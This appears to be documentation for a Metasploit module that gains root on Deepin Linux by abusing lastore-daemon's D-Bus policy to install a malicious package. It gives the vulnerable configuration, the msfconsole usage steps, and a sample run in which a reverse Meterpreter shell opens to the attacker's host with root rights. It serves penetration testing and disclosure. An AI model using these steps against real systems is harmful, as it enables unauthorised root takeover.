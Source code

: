 ## Description

  This module attempts to gain root privileges on [Deepin Linux](https://www.deepin.org/en/) systems
  by using `lastore-daemon` to install a package. It may cause audio and/or graphical signals confirming
  the installation of the payload package.


## Vulnerable Application

  The `lastore-daemon` D-Bus configuration on Deepin Linux permits any
  user in the `sudo` group to install arbitrary system packages without
  providing a password, resulting in code execution as root. By default,
  the first user created on the system is a member of the `sudo` group.

  The D-Bus configuration in `/usr/share/dbus-1/system.d/com.deepin.lastore.conf`
  permits users of the `sudo` group to execute arbitrary methods on the
  `com.deepin.lastore` interface, as shown below:

  ```xml
  <!-- Only root can own the service -->
  <policy user="root">
    <allow own="com.deepin.lastore"/>
    <allow send_destination="com.deepin.lastore"/>
  </policy>

  <!-- Allow sudo group to invoke methods on the interfaces -->
  <policy group="sudo">
    <allow own="com.deepin.lastore"/>
    <allow send_destination="com.deepin.lastore"/>
  </policy>
  ```

  This module has been tested successfully with lastore-daemon versions:

  * 0.9.53-1 on Deepin Linux 15.5 (x64)
  * 0.9.66-1 on Deepin Linux 15.7 (x64)

  Deepin Linux is available here:

  * https://www.deepin.org/en/mirrors/releases/

  `lastore-daemon` source repository is available here:

  * https://cr.deepin.io/#/admin/projects/lastore/lastore-daemon
  * https://github.com/linuxdeepin/lastore-daemon/


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/lastore_daemon_dbus_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

```
  msf > use exploit/linux/local/lastore_daemon_dbus_priv_esc 
  msf exploit(linux/local/lastore_daemon_dbus_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/lastore_daemon_dbus_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Building package...
  [*] Writing '/tmp/.NNhJWRPZdd/DEBIAN/control' (98 bytes) ...
  [*] Writing '/tmp/.NNhJWRPZdd/DEBIAN/postinst' (28 bytes) ...
  [*] Uploading payload...
  [*] Writing '/tmp/.1sZZ46ozIH' (207 bytes) ...
  [*] Installing package...
  [*] Sending stage (857352 bytes) to 172.16.191.200
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.200:51464) at 2018-03-24 18:45:29 -0400
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN/control
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN/postinst
  [+] Deleted /tmp/.1sZZ46ozIH
  [+] Deleted /tmp/.NNhJWRPZdd/DEBIAN
  [*] Removing package...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.200
  OS           : Deepin 15.5 (Linux 4.9.0-deepin13-amd64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```


